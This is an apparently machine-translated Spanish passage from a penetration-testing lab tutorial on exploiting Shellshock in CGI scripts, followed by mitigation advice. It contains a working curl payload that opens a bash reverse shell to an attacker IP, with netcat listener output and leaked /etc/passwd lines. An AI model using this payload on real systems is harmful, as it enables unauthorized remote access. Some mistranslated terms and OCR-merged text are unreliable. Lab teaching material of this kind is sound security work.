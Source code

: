 ```
ftp:x:112:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
kim:x:1000:1000:,,,:/home/kim:/bin/bash

```

### **Explotación para revertir el acceso de la carcasa**

Una vez que se ha confirmado la vulnerabilidad, podemos obtener el acceso a la carcasa inversa de muchas maneras. En este ejemplo, usamos una línea de una sola y obtenemos una devolución de llamada en nuestro oyente de NetCat.

Attacando aplicaciones de interfaz de puerta de enlace común (CGI) - Shellshock

```
xnoxos@htb[/htb]$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

Desde aquí, podríamos comenzar a buscar datos confidenciales o intentar aumentar los privilegios. Durante una prueba de penetración de red, podríamos intentar usar este host para pivotar en la red interna.

Attacando aplicaciones de interfaz de puerta de enlace común (CGI) - Shellshock

```
xnoxos@htb[/htb]$ sudo nc -lvnp 7777listening on [any] 7777 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.204.231] 52840
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ idid
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htb:/usr/lib/cgi-bin$

```

---

# **Mitigación**

Este[blog](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability)Contiene consejos útiles para mitigar la vulnerabilidad de la cáscara. La forma más rápida de remediar la vulnerabilidad es actualizar la versión de BASH en el sistema afectado. Esto puede ser más complicado en los sistemas Ubuntu/Debian al final de la vida, por lo que un Sysadmin puede tener primero en actualizar el Administrador de paquetes. Con ciertos sistemas (es decir, dispositivos IoT que usan CGI), la actualización puede no ser posible. En estos casos, sería mejor asegurarse de que el sistema no esté expuesto a Internet y luego evalúe si el host puede ser desmantelado. Si se trata de un anfitrión crítico y la organización elige aceptar el riesgo, una solución temporal podría estar en firewall en el host en la red interna lo mejor posible. Tenga en cuenta que esto solo está poniendo una bandaid en una gran herida, y el mejor curso de acción sería actualizar o llevar al host fuera de línea.

---

# **Pensamientos de cierre**
